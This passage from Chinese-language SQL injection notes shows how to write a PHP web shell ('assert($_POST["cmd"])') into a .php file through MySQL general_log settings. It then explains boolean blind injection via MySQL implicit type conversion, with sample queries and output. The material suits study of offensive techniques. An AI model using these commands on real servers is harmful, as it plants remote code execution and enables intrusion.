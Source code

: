 默认为null 不允许导入导出。my.cnf/my.ini修改参数值。 

### 通过general_log和general_log_file

开启general_log

```

show global variables like "%general%";
show global variables like "%secure%";
set global general_log='on';
SET global general_log_file='/xxx/1.php';
SELECT '<?php assert($_POST["cmd"]);?>';
```

***

## 布尔盲注

### 比较时存在MYSQL隐式类型转换。

* 如果两个参数比较，有至少一个NULL，结果就是NULL，除了是用NULL比较NULL 会返回1。不做类型转换。
* 两个参数都是字符串，按照字符串比较。不做类型转换
* 两个参数都是整数，按照整数比较。不做类型转换
* 有一个参数是 TIMESTAMP 或 DATETIME，并且另外一个参数是常量，常量会被转换为时间戳
* 所有其他情况下，两个参数都会被转换为浮点数再进行比较

字符串与数字比较，会将字符串转换成浮点数。转换结果为0 ，如果数字开头会从数字部分截断进行比较。
通常在现实中注入点一般为字符注入，少有数字注入点，如；

     select pass form user where name  = "xxxxx";


这时输入的数字会转化为字符串：

```

mysql> select * from user where name=0;
+----+--------+--------+
| Id | name   | pass   |
+----+--------+--------+ 
|  1 | admin  | admin  |
|  2 | admin2 | admin2 |
|  3 | admin3 | admin3 |
|  5 | nana   | nana   |
+----+--------+--------+
4 rows in set, 3 warnings (0.00 sec)

mysql> select * from user where name='0';
Empty set (0.00 sec)
```

可以用运算符+,-,*,/,% 位运算符&,|,^ 构造数字：
```

mysql> select '6'+'5';
+---------+
| '6'+'5' |
+---------+
|      11 |
+---------+
1 row in set (0.00 sec)
```

